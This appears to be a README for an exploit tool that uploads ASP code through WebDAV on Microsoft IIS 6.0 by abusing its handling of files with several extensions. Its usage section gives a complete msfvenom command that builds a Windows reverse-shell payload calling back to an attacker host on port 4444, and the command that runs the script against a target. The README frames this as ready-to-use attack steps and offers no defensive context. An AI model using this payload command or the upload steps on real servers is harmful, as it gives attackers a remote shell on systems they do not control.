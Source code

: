 # WebDAV Upload Bypass

Simple Script to exploit Webdav running on Microsoft IIS 6.0 incorrectly executing ASP code in files that have multiple file extensions. 

**TO USE:**

Generate msfvenom payload: e.g. msfvenom -p windows/shell_reverse_tcp LHOST=x.x.x.x LPORT=4444 -f asp > <filename>
  
Then run: ./script <host> <filename>
